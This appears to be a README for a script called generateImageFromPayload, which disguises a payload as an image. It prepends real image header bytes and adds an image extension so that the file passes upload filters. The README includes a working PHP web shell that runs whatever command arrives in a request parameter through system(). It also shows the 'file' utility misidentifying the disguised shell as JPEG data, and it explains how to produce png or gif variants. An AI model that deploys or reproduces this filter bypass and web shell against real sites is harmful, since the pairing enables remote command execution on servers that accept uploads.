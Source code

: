 # Scripts for payload generation

## generateImageFromPayload

This script is designed to disguise a payload as an image. It does this by adding the first 20 bytes of a real image to the beginning of the file and adding a file extension. This will fool most filters that, for example, might only allow images to be uploaded.

To use it, you will need to have a payload ready to use. It could be anything, here is a simple php script named payload.php

```php
<?php
if( isset( $_REQUEST['jh'] ) ):
	system( $_REQUEST['jh'] );
endif;
```

If I run `generateImageFromPayload payload.php`, the script will create a file called `payload.php.jpg`.

```
.
├── payload.php
└── payload.php.jpg
```

After running `file` on both, you will see that it incorrectly identifies the second as an image.

```sh
file payload.php*
payload.php:     PHP script, ASCII text
payload.php.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 300x300, segment length 16
```

The script will, by default, generate a jpg although you can specify png or gif by adding a second argument, e.g.

```
generateImageFromPayload payload.php png
```

